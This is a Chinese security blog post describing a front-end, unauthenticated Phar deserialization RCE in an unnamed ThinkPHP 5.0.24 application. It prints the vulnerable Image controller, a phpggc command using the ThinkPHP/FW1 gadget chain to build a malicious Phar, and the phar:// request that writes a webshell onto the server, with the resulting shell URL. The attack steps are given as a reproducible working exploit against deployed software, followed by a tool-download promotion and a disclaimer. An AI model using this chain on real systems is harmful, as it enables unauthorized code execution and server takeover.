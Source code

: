 #  【代码审计】记某次项目前台反序列化RCE漏洞研究   
 青萍安全   2025-04-18 06:27  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 过程  
  
一套涉Zha的系统，名字就不给出了，貌似用的人还挺多.  
  
该项目框架:ThinkPHP 5.0.24 Debug:True  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wE9nUZDr1NkPdCIIQ6FgB4cwKHd8eYZZIalVibHFUDyeCP13LaxeY2g1g/640?wx_fmt=png&from=appmsg "")  
  
翻遍了所有代码，上传点都限制的比较死，只能传白名单里的后缀，SQL注入也基本没有，只能去找找别的地方.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEZWoXD8OibszibKf3gIQEmhJ3J50XHupQwmeKVl7Aux6WCozvPz2T2pmw/640?wx_fmt=png&from=appmsg "")  
  
这时候看到位于 /application/api/controller/Image.php 控制器中的Image 方法存在file_get_contesnts函数，这不就来了么.  
  
```
<?phpnamespace app\api\controller;use app\common\controller\Api as CommonController;final class Image extends CommonController{    protected $noNeedLogin = '*';    protected $noNeedRight = '*';    public function _initialize()    {        parent::_initialize();    }    public function image()    {        $imageData = file_get_contents(input('url'));        $image = imagecreatefromstring($imageData);        header("Content-Type: image/jpeg");        imagejpeg($image);        imagedestroy($image);        exit;    }}
```  
  
  
众所周知，file_get_contents 文件不仅能读取文件，在ThinkPHP 5.0.24 中是可以触发Phar反序列化漏洞的.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEMW8orZvVA85VniaBvPeE36OUXsLZSa6BdeGmkN3pzKqxmzZJ2pE8DSw/640?wx_fmt=other&from=appmsg "")  
  
**首先需要用phpggc 生成一个Phar反序列化包，用ThinkPHP/FW1 这个利用链，注意需要绝对路径打对，然后本地放一个aaa.php 这里是你要写入的内容 (phpggc 可能会出点问题，把出问题的利用链文件直接删除即可).**  
  
****  
```
php.exe phpggc -p phar -o aaa.phar ThinkPHP/FW1 /www/wwwroot/xxxxx.com/public/ aaa.php
```  
  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEonk44mRGP93dkv5KK2AkUYKETE5soxDGpgoibv5kmeGYLPuxWOmrZZg/640?wx_fmt=other&from=appmsg "")  
  
**这里上传点颇多，随便找个点传上去即可.**  
  
****  
**然后访问直接 /api/image/image?url=phar://./upload/图片地址.png 即可直接调用该利用链写入SHELL到其目录下**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEwcFDUbsCnUmLt3ucXCq8Cld43Rr3JXIQWuk6AlOpNpPMDOjhhYBAaw/640?wx_fmt=png&from=appmsg "")  
  
**http://192.168.200.128/3b58a9545013e88c7186db11bb158c44.php**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5f6icDjWUFZQK4mToqE5Q4wEC15l3mhFHibyDEp3CRS5JgqzZRKiba4PaMN4r2sTuicR42Dducmbd3GxQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 phpggc下载  
  
  
**标签:代码审计，0day，渗透测试，系统，通用，转转，Deepseek，AI**  
  
**phpggc关注公众号，发送 250418 获取!**  
  
****  
  
  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
